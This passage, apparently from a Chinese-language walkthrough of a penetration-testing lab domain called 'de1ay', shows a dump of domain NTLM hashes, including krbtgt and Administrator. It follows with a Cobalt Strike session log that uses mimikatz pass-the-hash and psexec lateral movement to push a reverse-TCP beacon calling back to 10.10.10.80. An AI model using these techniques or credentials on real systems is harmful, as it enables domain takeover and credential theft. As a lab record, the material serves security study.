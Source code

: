 ```yml
Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:82dfc71b72a11ef37d663047bc2088fb:::
de1ay:1001:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
mssql:2103:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
DC$:1002:aad3b435b51404eeaad3b435b51404ee:b3b182adbbec173e8e2997bb1308b189:::
PC$:1105:aad3b435b51404eeaad3b435b51404ee:80e99329949e6d78b20f91395ca12db5:::
WEB$:1603:aad3b435b51404eeaad3b435b51404ee:3bf43406dc9f6d0b924cc1ad2206496e:::
```

至于那台PC，还是老样子，利用MS17-010可以直接拿下，当然，用域控的黄金票据的话：

![image-20220411233318843](./image-20220411233318843.png)

这样再上传，利用sc 命令启动服务也可以。

> 事实证明SC是不行的。

#### 尝试PTH拿PC

思来想去，PC的360也不是摆设，试试利用CS拿下PC。

之前是已经拿下了域控，然后利用域控扫描一下内网段内的机器：

![image-20220413101554583](./image-20220413101554583.png)

然后尝试PTH并且上传后门进行攻击：

```bash
beacon> rev2self
[*] Tasked beacon to revert token
beacon> pth de1ay\Administrator 161cff084477fe596a5db81874498a24
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:Administrator /domain:de1ay /ntlm:161cff084477fe596a5db81874498a24 /run:"%COMSPEC% /c echo 222098cb4f2 > \\.\pipe\6c077a" command
beacon> jump psexec PC Jumper
[*] Tasked beacon to run windows/beacon_reverse_tcp (10.10.10.80:14234) on PC via Service Control Manager (\\PC\ADMIN$\710e349.exe)
[+] host called home, sent: 1036523 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[-] Could not start service 710e349 on PC: 299
[+] received output:
user    : Administrator
domain  : de1ay
program : C:\Windows\system32\cmd.exe /c echo 222098cb4f2 > \\.\pipe\6c077a
impers. : no
NTLM    : 161cff084477fe596a5db81874498a24
  |  PID  3656
  |  TID  3468
  |  LSA Process is now R/W
  |  LUID 0 ; 3662164 (00000000:0037e154)
  \_ msv1_0   - data copy @ 00000000019BF0C0 : OK !
  \_ kerberos - data copy @ 0000000000BF8D18
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000000000BD8588 (16) -> null
```
